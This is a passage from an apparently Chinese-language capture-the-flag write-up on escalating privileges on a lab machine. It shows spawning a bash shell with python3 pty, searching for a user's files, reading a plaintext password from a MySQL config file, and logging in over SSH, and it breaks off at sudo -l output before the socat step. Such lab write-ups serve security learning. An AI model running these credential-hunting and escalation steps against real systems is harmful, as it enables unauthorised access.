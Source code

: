 ```
#  提权方法2 sudo滥用：socat
因为这台机器只安装了python3，所以我们要用python3切换tty

```python3 -c "import pty;pty.spawn('/bin/bash')"```

用find找到elyana相关的文件

```
bash-4.4$  find / -user elyana -type f 2>/dev/null
 find / -user elyana -type f 2>/dev/null
/home/elyana/user.txt
/home/elyana/.bash_logout
/home/elyana/hint.txt
/home/elyana/.bash_history
/home/elyana/.profile
/home/elyana/.sudo_as_admin_successful
/home/elyana/.bashrc
/etc/mysql/conf.d/private.txt
bash-4.4$ cat /etc/mysql/conf.d/private.txt
cat /etc/mysql/conf.d/private.txt
user: elyana
password: E@syR18ght

```

找到ssh凭证：```elyana:E@syR18ght```

我们登陆到elyana的账号，查看elyana的sudo权限
```
┌──(root💀kali)-[~]
└─#  ssh elyana@10.10.167.81
elyana@10.10.167.81's password: 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-118-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 System information disabled due to load higher than 1.0


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

16 packages can be updated.
0 updates are security updates.


Last login: Fri Oct  9 08:09:56 2020
-bash-4.4$ whoami
elyana
-bash-4.4$ sudo -l
Matching Defaults entries for elyana on elyana:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
